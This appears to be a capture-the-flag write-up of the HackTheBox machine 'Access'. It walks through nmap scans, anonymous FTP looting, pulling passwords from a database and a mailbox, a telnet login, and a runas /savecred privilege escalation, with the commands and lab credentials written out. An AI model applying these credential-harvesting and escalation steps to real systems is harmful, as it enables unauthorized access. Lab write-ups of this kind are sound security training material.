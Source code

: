 ```yaml
---
title: Access
date: 2019-03-02
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="access-banner2.png" />
</p>

***


# External Recon

We kick off a basic "nmap" scan:

```
nmap -sC -sV 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see, we find some very common ports.
When we visit the website listening on "port 80" we just find a picture
of a server-room.

![Not so big](access-port80.png)

Let's check "ftp" and "telnet" by running another "nmap" scan.

```
nmap -A 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
```

First thing to note is that we have anonymous access to the "ftp" server.
Let's login an see what we find.

[[Top]](#top)

# Explore

```
ftp 10.10.10.98                                                                                                                            

Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
```

In both directories are files. I downloaded them with `get <filename>`.

![FTP-Files](access-ftp-files.png)

The zip file was password protected. So, I moved over to the database file.
I ran the tool "strings" and "grep" on it and hoped for a quick win. Perhaps we find a password.

And indeed I found a password to the zip:

```
strings backup.mdb | grep access
access4u@security
```

Of cause I tried different versions of this. `grep passw` and others.
To be honest. I don't know what else I tried. Perhaps I just piped "strings" into "more"
and searched manually. ;)

However in the zip file, I found a ".pst" file. If you don't know what this is, you
can run `file` against it and find out it's a "Microsoft Exchange" format for Mailboxes.

We can't read it how it is right now. So I searched for a converter. Very quickly
I came across "pst-tools". You can get them via "apt" in "kali".

After installing it, I ran `readpst`. It converted the file to a ".mbox" file.
You can get the file <a href="https://www.tagnull.de/post/access/access_controll.mbox">here</a>.

In it you find an email from John.

> Hi there,
> 
> The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
> 
> Regards,
> John

How kind! Thanks John! :)

[[Top]](#top)


# Exploit

Let's login with our new credentials:

![Telnet](access-telnet.png)

And we've got a shell. Including `user.txt`

```
C:\Users\security\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Desktop

08/28/2018  06:51 AM    <DIR>          .
08/28/2018  06:51 AM    <DIR>          ..
08/21/2018  10:37 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  16,767,012,864 bytes free

```

[[Top]](#top)

# Internal Recon

I searched around in the box for clues how to proceed. Eventually I checked for stored
credentials:

```
cmdkey /list

Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
```

If you want to learn more about "Windows Enumeration" check this <a href="https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide" target="_blank">blog</a>.
He has some `HackTheBox` WriteUps too.

[[Top]](#top)


# Privilege Escalation
In order to use those stored credentials, I used "runas" with the "/savecreds" option.

`runas /user:ACCESS\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt C:\Users\security\AppData\Local\Temp\root.txt"`

[[Top]](#top)

# Root Flag

So we've got our root.txt:

![Root](access-root.png)

But getting a shell is fun. At least when you don't do a writeup. For some reason my payloads wouldn't work anymore.
So I had to figure out another way to get a shell.

I won't give you the complete rundown today. I probably will do a seperate blog for different shells in the near future.
Just get yourself this repo: <a href="https://github.com/samratashok/nishang" target="_blank">Github: nishang</a> and play with
"Invoke-PowershellTCP". It's cool! :)

![Shell](access-shell.png)

[[Top]](#top)

# Lessons Learned
I should learn to take propper notes on my machines. I had to do the machine a second time basicly. *sigh*

That's it for today. Have a nice one!

x41

[[Top]](#top)
